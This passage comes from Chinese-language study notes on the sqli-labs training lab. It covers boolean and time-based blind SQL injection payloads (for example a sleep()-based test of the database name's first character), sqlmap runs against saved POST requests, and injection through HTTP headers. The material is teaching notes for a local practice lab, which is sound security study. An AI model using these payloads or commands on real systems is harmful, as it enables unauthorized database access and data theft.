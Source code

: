 http://localhost:8081/Less-8/?id=1‘ and length(database())=8 --+>

##### 基于时间

if(ascii(substr(database(),1,1)) =115, 1, sleep(3))

当数据库名第一个字母的ascii码等于115时，执行一次sleep（3）等待3秒

localhost:8081/Less-9/?id=1’ and if(1=0,1,sleep(5)) –+

mysql中的if语句

if(exp1,exp2,exp3)当exp1为真，返回exp2，否则返回exp3

##### 注入位置

###### post 注入

当某个post参数存在sql注入，需要使用burpsuite测试，拦截到请求后，保存到某个文件，

![1593430437777](assets/1593430437777.png)

使用

```
sqlmap -r request.txt --batch
```

检测参数。另外也可以使用-p参数指定要测试的参数。

###### http header 注入

http头信息如果参与了数据库查询，也可以用来进行测试，保存request信息，将要测试的头信息替换为*，

![1593430591468](assets/1593430591468.png)

